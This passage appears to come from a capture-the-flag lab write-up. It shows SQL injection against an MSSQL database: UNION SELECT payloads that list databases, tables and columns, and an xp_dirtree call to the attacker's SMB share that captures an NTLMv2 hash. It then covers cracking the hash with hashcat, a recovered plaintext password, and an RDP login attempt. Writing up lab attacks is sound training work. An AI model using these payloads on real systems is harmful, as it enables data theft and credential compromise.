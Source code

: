 ![image.png](image%205.png)

`union select null,name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from sys.databases;`

![image.png](image%206.png)

`4 union select null,table_name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from Injection.INFORMATION_SCHEMA.TABLES;`

![image.png](image%207.png)

`4 union select null,column_name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.columns where table_name='Users';`

![image.png](image%208.png)

Before dumping MSSQL database first we should check if `xp_cmdshell` or `xp_dirtree` work, for that I am gonna include at the end another query to access our SMB share.

`4 union select null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null; EXEC xp_dirtree '\\10.10.14.32\share\file';--`

```bash
sudo impacket-smbserver share ./ -smb2support
```

![image.png](image%209.png)

We got NTLMv2 hash, now I am gonna crack it with hashcat.

```bash
hashcat -m 5600 stacy.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2010.png)

It is cracked successfully.

>Here actually we don’t need to write all that 25 columns, I just didn’t delete it during the process, you can get hash easily with `4;EXEC xp_dirtree '\\10.10.14.32\share\file';--`.
{: .prompt-tip }

Now let’s try to connect to the machine using obtained credentails:

```bash
stacy : xNnWo6272k7x
```

I tried connecting with RDP, but it failed:

```bash
xfreerdp /u:stacy /p:xNnWo6272k7x /v:$IP
```

![image.png](image%2011.png)
